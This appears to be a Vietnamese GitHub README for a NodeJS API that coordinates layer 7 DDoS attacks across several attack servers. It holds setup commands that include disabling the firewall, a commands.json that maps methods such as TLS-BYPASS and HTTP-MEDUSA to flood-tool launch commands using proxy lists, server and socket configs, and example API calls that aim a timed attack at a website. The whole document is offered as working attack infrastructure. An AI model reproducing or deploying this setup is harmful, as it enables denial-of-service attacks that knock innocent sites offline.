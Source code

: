<h2>API NodeJS cho các cuộc tấn công layer 7</h2>

<h4>API này rất an toàn và nhanh gấp đôi thời gian ping giữa API và chương trình phụ trợ</h4>
<h4>tức là ping 60 mili giây, sẽ chỉ mất 120 mili giây để khởi chạy cuộc tấn công</h4>


<h1>Cài đặt:</h1>

cài đặt nodejs

ubuntu 
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.39.0/install.sh | bash
source ~/.bashrc
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

centos
```sh
curl -o- https://raw.githubusercontent.com/nvm-sh/nvm/v0.38.0/install.sh | bash
source ~/.nvm/nvm.sh
nvm install 14.17.3
nvm use 14.17.3
npm i express
```

cài đặt nginx

tắt tường lửa

centos
```sh
sudo service iptables stop
sudo chkconfig iptables off
sudo systemctl stop firewalld
sudo systemctl disable firewalld
```

<h1>Setup:</h1>

<h3>Update servers.json</h3><br>

```json
{
    "alpha": {
        "name": "1",
        "ip": "1.1.1.1",
        "port": 3000
    },
    "beta": {
        "name": "2",
        "ip": "2.2.2.2",
        "port": 3000
    }
}
```

<h3>Update commands.json</h3><br>

```json
{
    "HTTPGET": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "HTTPPOST": "screen -dmS attack_${attack_id} ./http ${host} proxy.txt ${time}",
    "TLS-BYPASS": "screen -dmS attack_${attack_id} node TLS-BYPASS ${host} ${time} 30 proxies.txt 30",
    "HTTP-MEDUSA": "screen -dmS attack_${attack_id} ./HTTP-MEDUSA ${host} ${time} 30 30",
    "STOP": "screen -dm pkill -f ${host}"
}
```

<h3>Update api.js:</h3><br>

```js
const api_port = 8888; // Cổng API
const socket_token = "SOCKET_TOKEN"; // Mã thông báo TCP Socket, sử dụng số/chữ cái ngẫu nhiên
const api_key = "API_KEY"; // Khóa API của bạn
const domain_lock = false; // khóa api để chỉ được sử dụng từ một tên miền cụ thể
const api_domain = 'example.com'; // miền API của bạn (nếu domain_lock được đặt thành true)
```

<h3>Update socket.js:</h3><br>

```js
const socket_port = 8888;
const socket_token = "SOCKET_TOKEN";
const allowed_ips = ['1.1.1.1'];
```

## Sau đó, tải `socket.js` lên máy chủ tấn công và tải `api.js` `servers.json` và `commands.json` lên máy chủ API


### Proxy đảo ngược

Bạn nên tạo proxy ngược bằng Nginx để sử dụng API của mình:

```nano /etc/nginx/nginx_conf```
```conf
server {
    listen 80;
    server_name api.yourdomain.com;
    location /api/attack {
        proxy_pass http://backend:8888/api/attack;
    }
}
```

Thay thế `'http://backend:8888/api/attack'` bằng IP máy chủ API của bạn

### Sử dụng API

Gửi yêu cầu tới API bằng các trường bắt buộc

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=HTTPGET&server=1`

Bạn có thể đặt `&server=all` để khởi chạy tới tất cả các máy chủ

Bạn có thể ngăn chặn các cuộc tấn công bằng cách gửi yêu cầu GET tới API sử dụng `&method=stop`

`http://api.yourdomain.com:8888/api/attack?api_key=key&host=https://website.com&time=120&method=stop&server=1`
